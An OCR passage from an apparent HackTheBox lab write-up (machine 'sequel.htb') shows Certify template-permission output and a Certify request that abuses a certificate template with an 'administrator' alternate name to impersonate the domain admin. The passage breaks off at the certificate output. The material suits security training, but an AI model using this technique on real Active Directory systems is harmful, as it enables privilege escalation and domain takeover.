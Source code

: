           Object Control Permissions
            Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
            WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                          sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                          sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
            WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                          sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                          sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
            WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                          sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                          sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
    
    Certify completed in 00:00:09.9977384
    ```
    
    As informações importantes são `CA Name` e `Template Name` .
    
    `.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator`
    
    ```
    *Evil-WinRM* PS C:\programdata> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
    
       _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.1.0
    
    [*] Action: Request a Certificates
    
    [*] Current user context    : sequel\Ryan.Cooper
    [*] No subject name specified, using current context as subject.
    
    [*] Template                : UserAuthentication
    [*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
    [*] AltName                 : administrator
    
    [*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA
    
    [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 10
    
    [*] cert.pem         :
    